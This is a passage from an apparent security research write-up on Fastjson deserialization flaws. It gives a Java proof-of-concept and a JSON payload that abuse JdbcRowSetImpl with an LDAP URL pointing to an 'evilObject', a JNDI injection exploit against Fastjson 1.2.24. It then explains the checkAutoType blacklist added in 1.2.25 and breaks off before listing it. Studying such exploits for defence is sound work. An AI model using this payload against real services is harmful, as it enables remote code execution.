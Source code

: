 ```java
package org.h3rmesk1t.fastjson.fastjson124;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/8 12:25 AM
 */
public class POC2 {

    public static void main(String[] args) {

        String jsonString = "{\n" +
                "\t\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\n" +
                "\t\"dataSourceName\":\"ldap://127.0.0.1:8888/evilObject\",\n" +
                "\t\"autoCommit\":true\n" +
                "}";
        JSON.parse(jsonString);
        JSON.parseObject(jsonString);
        JSON.parseObject(jsonString, Feature.SupportNonPublicField);
    }
}
```

![result2](./images/28.png)

```java
{
	"@type":"com.sun.rowset.JdbcRowSetImpl",
	"dataSourceName":"ldap://127.0.0.1:8888/evilObject",
	"autoCommit":true
}
```

## Fastjson 1.2.25 Deserialization Vulnerability
In the version of `Fastjson 1.2.2`, the official fixed the previous deserialization vulnerability and introduced the `checkAutoType` security mechanism. By default, the `autoTypeSupport` is closed and no arbitrary classes cannot be deserialized directly. After opening `AutoType`, it is based on the built-in blacklist to achieve security. `fastjson` also provides an interface to add blacklists.

Security updates are mainly focused on `com.alibaba.fastjson.parser.ParserConfig`, and several member variables appear on the class:
 - `autoTypeSupport`: Used to identify whether deserialization of any type is enabled and is turned off by default.
 - `denyList`: Blacklist of deserialization classes.
 - `acceptList`: is a deserialized whitelist.

![ParserConfig](./images/29.png)

Blacklist `denyList` includes:
